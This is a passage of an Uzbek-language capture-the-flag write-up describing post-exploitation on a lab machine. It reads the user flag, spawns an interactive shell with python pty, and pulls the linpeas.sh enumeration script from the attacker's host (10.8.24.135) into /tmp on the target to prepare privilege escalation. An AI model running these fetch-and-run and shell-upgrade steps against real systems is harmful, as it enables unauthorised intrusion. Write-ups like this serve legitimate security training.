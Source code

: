 Foydalanuvchilar:

```
$ ls /home
webdeveloper
```

user.txt'ni qo'lga kiritish:

```
$ cd /home/webdeveloper
$ ls
user.txt
$ cat user.txt
63191e4ece37523c9fe6bb62a5e64d45
```

TTY ochamiz:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



## PrevEsc

Tizimni tahlil qilishda yordam berishi uchun bizga Linpeas.sh dasturi kerak bo'ladi.

Dasturni yuklab olib uni serverga olib o'tamiz.

Yuklab olish:

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Serverga olib o'tish uchun kompyuterimizdan http.server ochamiz:

```
sudo python3 -m http.server 80
```

Serverdan faylni  /tpm papkasiga yuklaymiz:

```
www-data@sky:/home/webdeveloper$ cd /tmp
cd /tmp
www-data@sky:/tmp$ wget 10.8.24.135/linpeas.sh
wget 10.8.24.135/linpeas.sh
--2025-08-02 22:05:50--  http://10.8.24.135/linpeas.sh
Connecting to 10.8.24.135:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 956174 (934K) [application/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 933.76K   569KB/s    in 1.6s    

2025-08-02 22:05:53 (569 KB/s) - ‘linpeas.sh’ saved [956174/956174]
```
